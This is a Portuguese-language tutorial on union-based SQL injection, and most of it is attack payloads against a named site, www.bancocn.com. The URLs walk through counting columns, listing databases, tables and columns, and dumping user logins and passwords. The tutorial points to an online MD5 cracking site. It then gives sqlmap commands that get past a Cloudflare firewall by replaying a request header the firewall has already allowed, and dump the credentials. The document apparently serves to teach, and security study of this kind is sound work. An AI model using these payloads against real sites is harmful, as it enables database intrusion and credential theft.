

Union Based
Unir outras queries àquela brecha encontrada. Geralmente ferramentas de SQL Injection não têm efetividade contra sites controlados por firewall, tendo então que as operações sejam manuais. As 2 principais ferramentas de SQL Injetcion são o Sqlmap e Havij.
Quantas colunas possuem a table do site
Ir trocando o 1 (nº da coluna da table) no final até dar um erro SQL na página, para descobrir quantas colunas possuem a tabela representada. Atenção, não são as linhas, mas sim as colunas de uma table:
www.bancocn.com/cat.php?id=1 order by 1--
Concatenar Selects
Cria-se, após fazer o 1º select, um novo 'select', no caso abaixo, com 3 colunas, sendo especificado o valor 1 na primeira coluna, 2 na segunda e 3 na terceira. Caso colocarmos um 4 após o 3, ocorrerá o mesmo erro que o acima, informando que não existe uma quarta coluna. Pode-se trocar os nºs por outros dados, como Strings.
www.bancocn.com/cat.php?id=1 union select 1, 2, 3
www.bancocn.com/cat.php?id=-1 union select 1, 2, 3 (Ver conteúdo da 3ª coluna)
www.bancocn.com/cat.php?id=-1 union select 1, 2, database() //nome do database
Database padrão MySQL
Dentro da table schemata estão os nomes dos Databases existentes (schema_name). Schema é o mesmo que Database. No caso, existem mais Databases cadastrados, porém o usuário de acesso do Database não possui permissões de acesso.
www.bancocn.com/cat.php?id=-1 union select 1, 2, group_concat(schema_name) from information_schema.schemata
Nome das tables:
www.bancocn.com/cat.php?id=-1 union select 1, 2, group_concat(table_name) from information_schema.tables where table_schema="bancocn"
Nome das columns:
www.bancocn.com/cat.php?id=-1 union select 1, 2, group_concat(column_name) from information_schema.columns where table_schema="bancocn" and table_name="users"
Dados das Columns
www.bancocn.com/cat.php?id=-1 union select 1, 2, login from bancocn.users
www.bancocn.com/cat.php?id=-1 union select 1, 2, group_concat(id, " ", login, " ", password) from bancocn.users
Remover criptografia MD5
Site https://hashes.com/en/decrypt/hash
Sqlmap
sqlmap -u http://www.bancocn.com/cat.php?id=3 --dbs --dbms=mysql
Ocorrerá um erro 403, pois o firewall Cloudflare barra a ferramenta. A solução para tal é inserir um Request Header que já fora autorizado pelo firewall, e salvá-lo em um arquivo txt (no caso, header.txt, imagem abaixo). Após isso, utiliza-se o seguinte comando.
sqlmap -r lista.txt --dbs --dbms=mysql


Nome das tables:
sqlmap -r lista.txt --dbms=mysql -D bancocn --tables
Columns da table:
sqlmap -r lista.txt --dbms=mysql -D bancocn -T users --columns
Dados das columns:
sqlmap -r lista.txt --dbms=mysql -D bancocn -T users -C login,password --dump



Elaborado por Mateus Schwede
ubsocial.github.io